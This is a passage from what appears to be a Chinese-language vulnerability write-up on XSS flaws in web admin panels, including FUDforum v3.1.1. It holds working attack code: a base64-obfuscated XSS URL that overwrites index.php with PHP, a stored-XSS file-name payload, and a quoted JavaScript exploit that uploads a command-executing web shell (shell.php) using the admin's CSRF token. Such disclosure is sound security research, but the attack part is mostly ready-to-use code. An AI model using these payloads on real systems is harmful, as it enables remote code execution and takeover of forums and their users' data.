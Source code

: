 是时候将有效负载和上述 JavaScript 代码结合起来了，例如，可以用 Base64 进行编码：  
```
https://192.168.1.76/manager/?a=35&id=1%22%3E%3Cimg%20src=1%20onerror=eval(atob(%27JC5nZXQoJy9tYW5hZ2VyLz9hPTMxJyxmdW5jdGlvbihkKXtsZXQgcCA9ICQoZCkuY29udGVudHMoKS5maW5kKCdpbnB1dFtuYW1lPSJwYXRoIl0nKS52YWwoKTskLmFqYXgoe3VybDonL21hbmFnZXIvaW5kZXgucGhwJyx0eXBlOidQT1NUJyxjb250ZW50VHlwZTonYXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkJyxkYXRhOidhPTMxJm1vZGU9c2F2ZSZwYXRoPScrcCsnL2luZGV4LnBocCZjb250ZW50PTw/cGhwIHBocGluZm8oKTsgPz4nfSk7fSk7%27))%3E
```  
  
如果对系统中授权的管理员进行成功攻击，index.php 文件将被攻击者放置在有效负载中的代码覆盖。在本例中，这是对 phpinfo() 函数的调用：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadPsVWgiaucDh2zg6oyiaVSpjqMqw8lqPfgttkucMEyFrRiaIXdQvxfZSEZiciaM3HFuvBmZvfxOZQERUw/640?wx_fmt=png&from=appmsg "")  
  
  
  
**FUDforum v3.1.1**  
  
Link: https://github.com/fudforum/FUDforum  
  
CVE: 待定  
  
  
FUDforum 是一个超快速且可扩展的讨论论坛。它是高度可定制的，支持无限的成员、论坛、帖子、主题、投票和附件。  
  
  
在 FUDforum 中，我发现私人消息或论坛主题中的附件名称中存在用户控制数据的未转义显示，这允许执行存储的 XSS 攻击。附加并上传名为 <img src=1 onerror=alert()>.png 的文件。下载该文件后，javascript代码将在浏览器中执行：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadPsVWgiaucDh2zg6oyiaVSpj3HfnWTicTdcJic0AIDsORG4hSc46yopFmMGl46oy9wPEC2ZqgIa65Mpw/640?wx_fmt=png&from=appmsg "")  
  
FUDforum 管理面板有一个文件管理器，允许您将文件上传到服务器，包括带有 php 扩展名的文件。  
  
  
攻击者可以利用存储的XSS上传可以执行服务器上任何命令的php文件。  
  
  
FUDforum已经存在一个公开漏洞，它使用 JavaScript 代码代表管理员上传一个 php 文件：  
```
const action = '/adm/admbrowse.php';

function uploadShellWithCSRFToken(csrf) {
  let cur = '/var/www/html/fudforum.loc';
  let boundary = "-----------------------------347796892242263418523552968210";
  let contentType = "application/x-php";
  let fileName = 'shell.php';
  let fileData = "<?=`$_GET[cmd]`?>";
  let xhr = new XMLHttpRequest();
  xhr.open('POST', action, true);
  xhr.setRequestHeader("Content-Type", "multipart/form-data, boundary=" + boundary);
  let body = "--" + boundary + "\r\n";
  body += 'Content-Disposition: form-data; name="cur"\r\n\r\n';
  body += cur + "\r\n";
  body += "--" + boundary + "\r\n";
  body += 'Content-Disposition: form-data; name="SQ"\r\n\r\n';
  body += csrf + "\r\n";
  body += "--" + boundary + "\r\n";
  body += 'Content-Disposition: form-data; name="fname"; filename="' + fileName + '"\r\n';
  body += "Content-Type: " + contentType + "\r\n\r\n";
  body += fileData + "\r\n\r\n";
  body += "--" + boundary + "\r\n";
  body += 'Content-Disposition: form-data; name="tmp_f_val"\r\n\r\n';
  body += "1" + "\r\n";
  body += "--" + boundary + "\r\n";
  body += 'Content-Disposition: form-data; name="d_name"\r\n\r\n';
  body += fileName + "\r\n";
  body += "--" + boundary + "\r\n";
  body += 'Content-Disposition: form-data; name="file_upload"\r\n\r\n';
  body += "Upload File" + '\r\n';
  body += "--" + boundary + "--";
  xhr.send(body);
}
```